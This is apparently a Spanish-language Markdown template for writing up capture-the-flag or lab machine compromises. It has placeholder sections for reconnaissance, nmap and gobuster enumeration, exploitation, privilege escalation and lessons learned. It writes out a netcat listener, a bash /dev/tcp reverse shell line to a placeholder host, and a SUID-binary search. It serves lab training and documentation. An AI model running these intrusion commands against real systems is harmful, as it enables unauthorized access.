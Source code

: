 
---
# Writeup Template: Maquina `[Nombre_Máquina]`

- Tags: `[Etiqueta1]` `[Etiqueta2]` `[Etiqueta3]`
- Dificultad: `[Baja/Media/Alta/Insane]`
- Plataforma: `[HTB/VulnHub/TryHackMe/Dockerlabs/HackMyVM/etc]`

---
## Enlace al laboratorio
`[Enlace_Descarga_o_Acceso]`

## Configuracion del Entorno
```bash
# Comandos para desplegar el laboratorio
[comando_descompresion] [archivo_laboratorio]
[comando_despliegue] [configuracion]
```

---
## Fase de Reconocimiento

### Direccion IP del Target
```bash
[IP_TARGET]
```
### Identificación del Target
Lanzamos una traza **ICMP** para determinar si tenemos conectividad con el target
```bash
ping -c 1 [IP_TARGET] 
```

### Determinacion del SO
Usamos nuestra herramienta en python para determinar ante que tipo de sistema opertivo nos estamos enfrentando
```bash
wichSystem.py [IP_TARGET]
# TTL: [Valor] -> [Sistema_Operativo]
```

---
## Enumeracion de Puertos y Servicios
### Descubrimiento de Puertos
```bash
# Escaneo rápido con herramienta personalizada en python
escanerTCP.py -t [IP_TARGET] -p [Rango_Puertos]

# Escaneo con Nmap
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn [IP_TARGET] -oG allPorts
extractPorts allPorts # Parseamos la informacion mas relevante del primer escaneo
```

### Análisis de Servicios
Realizamos un escaneo exhaustivo para determinar los servicios y las versiones que corren detreas de estos puertos
```bash
nmap -sCV -p[Puertos_Abiertos] [IP_TARGET] -oN targeted
```

**Servicios identificados:**
```bash
# Aqui los servicios
```
---

## Enumeracion de [Servicio  Principal]
direccion **URL** del servicio:
```bash
http://IP
```
### Tecnologías Detectadas
Realizamos deteccion de las tecnologias empleadas por la web
```bash
whatweb http://[IP_TARGET]
```

Lanzamos un script de **Nmap** para reconocimiento de rutas
```bash
nmap --script http-enum -p [PORT] [IP_TARGET]
```
### Descubrimiento de Rutas
```bash
gobuster dir -u http://[IP_TARGET]/[Ruta] -w [Diccionario] -t [Hilos] [Opciones_Adicionales]
```

**Hallazgos Relevantes:**
```bash
# Aqui las rutas importante
```

### Descubrimiento de Archivos
```bash
gobuster dir -u http://[IP_TARGET]/[Ruta] -w [Diccionario] -t [Hilos] -x [Extensiones]
```

- **Hallazgos**:
```bash
/admin (Status: 200) [Size: 1534]
/backup (Status: 301) [Size: 315]
```

### Credenciales Encontradas
- Usuario: `[Usuario]`
- Contraseña: `[Contraseña]`

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
[Descripción breve del método de explotación]

### Ejecucion del Ataque
```bash
# Comandos para explotación
[comando_explotacion]
```

### Intrusion
Modo escucha
```bash
nc -nlvp PORT
```

```bash
# Reverse shell o acceso inicial
bash -c 'exec bash -i &>/dev/tcp/IP_TARGE/PORT <&1'
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
id
sudo -l
find / -perm -4000 2>/dev/null
```

**Hallazgos Clave:**
- Binario con privilegios: `[Binario]`
- Credenciales de usuario: `[Usuario]:[Contraseña]`

### Explotacion de Privilegios

###### Usuario `[ Nombre-Usuario ]`:

```bash
# Comando para escalar al usuario: ( root )
[comando_escalada]
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
whoami
root
```

---

## Lecciones Aprendidas
1. [Lección 1]
2. [Lección 2]
3. [Lección 3]

## Recomendaciones de Seguridad
- [Recomendación 1]
- [Recomendación 2]
- [Recomendación 3]


